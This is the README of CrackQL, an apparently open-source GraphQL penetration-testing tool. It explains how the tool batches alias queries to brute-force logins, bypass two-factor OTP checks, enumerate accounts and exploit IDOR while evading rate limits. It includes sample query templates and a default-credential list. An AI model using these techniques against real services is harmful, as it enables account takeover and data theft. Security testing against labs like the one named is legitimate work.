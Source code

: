CrackQL
=======
CrackQL is a GraphQL password brute-force and fuzzing utility.

<h1 align="center">
	<img src="https://github.com/nicholasaleks/CrackQL/blob/master/static/CrackQL-Banner.png?raw=true" alt="CrackQL"/>
	<br>
</h1>

CrackQL is a versatile GraphQL penetration testing tool that exploits poor rate-limit and cost analysis controls to brute-force credentials and fuzz operations.

# Table of Contents
* [How it works](#how-it-works)
* [Attack Use Cases](#attack-use-cases)
  * [Defense Evasion](#defense-evasion)
  * [Password Spraying Brute-forcing](#password-spraying-brute-forcing)
  * [Two-factor Authentication OTP Bypass](#two-factor-Authentication-otp-bypass)
  * [User Account Enumeration](#user-account-enumeration)
  * [Insecure Direct Object Reference](#insecure-direct-object-reference)
  * [General Fuzzing](#general-fuzzing)
* [Inputs](#inputs)
* [Installation](#installation)
* [Configurations](#configuration)
* [Maintainers](#maintainers)
* [Mentions](#mentions)

## How it works?

CrackQL works by automatically batching a single GraphQL query or mutation into several alias operations. It determines the number of aliases to use based on the CSV input variables. After programmatically generating the batched GraphQL document, CrackQL then batches and sends the payload(s) to the target GraphQL API and parses the results and errors.

## Attack Use Cases

CrackQL can be used for a wide range of GraphQL attacks since it programmatically generates payloads based on a list of dynamic inputs.

### Defense Evasion

Unlike [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder) which sends a request for each unique payload, CrackQL evades traditional API HTTP rate-limit monitoring defenses by using multiple alias queries to stuff large sets of credentials into single HTTP requests. To bypass query cost analysis defenses, CrackQL can be optimized into using a series of smaller batched operations (`-b`) as well as a time delay (`-D`).


### Password Spraying Brute-forcing

CrackQL is perfect against GraphQL deployments that leverage in-band GraphQL authentication operations (such as the [GraphQL Authentication Module](https://www.graphql-modules.com/docs#authentication-module)). The below password spraying example works against [DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) with the `sample-inputs/users-and-passwords.csv` dictionary.

*sample-queries/login.graphql*
<pre>
mutation {
  login(username: <b>{{username|str}}</b>, password: <b>{{password|str}}</b>) {
    accessToken
  }
}
</pre>

### Two-factor Authentication OTP Bypass

It is possible to use CrackQL to bypass two-factor authentication by sending all OTP (One Time Password) tokens

*sample-queries/otp-bypass.graphql*
<pre>
mutation {
  twoFactor(otp: <b>{{otp|int}}</b>) {
    accessToken
  }
}
</pre>

### User Account Enumeration

CrackQL can also be used for enumeration attacks to discover valid user ids, usernames and email addresses

*sample-queries/enumeration.graphql*
<pre>
query {
  signup(email: <b>{{email|str}}</b>, password: <b>{{password|str}}</b>) {
    user {
      email
    }
  }
}
</pre>

### Insecure Direct Object Reference

CrackQL could be used to iterate over a large number of potential unique identifiers in order to leak object information

*sample-queries/idor.graphql*
<pre>
query {
  profile(uuid: <b>{{uuid|int}}</b>) {
    name
    email
    picture
  }
}
</pre>

### General Fuzzing

CrackQL can be used for general input fuzzing operations, such as sending potential SQLi and XSS payloads.

## Inputs

CrackQL will generate payloads based on input variables defined by a CSV file. CrackQL requires the CSV header to match the input name.

*sample-inputs/usernames_and_passwords.csv*
<pre>
<b>username</b>, <b>password</b>
admin, admin
admin, password
admin, pass
admin, pass123
admin, password123
operator, operator
operator, password
operator, pass
operator, pass123
operator, password123
</pre>

#### Valid input types
- `str`
- `int`
- `float`

## Installation

### Requirements
- Python3
- Requests
- GraphQL
- Jinja

### Clone Repository
`git clone git@github.com:nicholasaleks/CrackQL.git`

### Get Dependencies
`pip install -r requirements.txt`

### Run CrackQL
`python3 CrackQL.py -h`

```
Usage: python3 CrackQL.py -t http://example.com/graphql -q sample-queries/login.graphql -i sample-inputs/usernames_and_passwords.csv

Options:
  -h, --help            show this help message and exit
  -t URL, --target=URL  Target url with a path to the GraphQL endpoint
  -q QUERY, --query=QUERY
                        Input query or mutation operation with variable
                        payload markers
  -i INPUT_CSV, --input-csv=INPUT_CSV
                        Path to a csv list of arguments (i.e. usernames,
                        emails, ids, passwords, otp_tokens, etc.)
  -d DELIMITER, --delimiter=DELIMITER
                        CSV input delimiter (default: ",")
  -o OUTPUT_DIRECTORY, --output-directory=OUTPUT_DIRECTORY
                        Output directory to store results (default:
                        ./results/[domain]_[uuid]/
  -b BATCH_SIZE, --batch-size=BATCH_SIZE
                        Number of batch operations per GraphQL document
                        request (default: 100)
  -D DELAY, --delay=DELAY
                        Time delay in seconds between batch requests (default:
                        0)
  --verbose             Prints out verbose messaging
  -v, --version         Print out the current version and exit.
```

## Configuration
Use `config.py` to set HTTP cookies, headers or proxies if the endpoint requires authentication.

## Maintainers
* [Nick Aleks](https://github.com/nicholasaleks)
* [Dolev Farhi](https://github.com/dolevf)

## Mentions
